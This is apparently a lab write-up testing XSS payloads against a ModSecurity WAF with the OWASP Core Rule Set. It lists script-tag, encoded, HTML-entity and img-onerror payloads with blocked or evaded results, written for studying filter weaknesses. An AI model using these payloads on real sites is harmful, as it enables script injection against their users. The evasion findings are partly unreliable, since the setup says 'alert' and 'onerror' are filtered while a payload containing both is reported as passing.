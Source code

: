 # XSS Payload Evasion with WAF Character-based Filters

## Setup

- **Web Application**: Sample application hosted locally with basic input fields vulnerable to XSS.
- **WAF**: ModSecurity with OWASP Core Rule Set (CRS).
- **Filters**: Enabled character-based filtering for common XSS patterns (e.g., `<script>`, `alert`, `onerror`).

## Payloads Tested

1. **Basic Payload**:
   - `<script>alert("XSS")</script>`
   - **Result**: Blocked by WAF.

2. **URL Encoded Payload**:
   - `%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E`
   - **Result**: Blocked by WAF.

3. **Hexadecimal Encoding**:
   - `%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3c%2f%73%63%72%69%70%74%3e`
   - **Result**: Blocked by WAF.

4. **UTF-16 Encoding**:
   - `%u003c%u0073%u0063%u0072%u0069%u0070%u0074%u003e%u0061%u006c%u0065%u0072%u0074%u0028%u0022%u0058%u0053%u0053%u0022%u0029%u003c%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u003e`
   - **Result**: Blocked by WAF.

5. **HTML Entities**:
   - `&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#88;&#83;&#83;&#34;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;`
   - **Result**: Evaded WAF.

6. **Alternative Syntax**:
   - `<img src=x onerror=alert("XSS")>`
   - **Result**: Evaded WAF.

## Conclusion

The payloads using HTML entities and alternative syntax successfully evaded the character-based filters of the WAF. This highlights the limitations of simple character-based filtering and underscores the need for more robust XSS protection mechanisms.
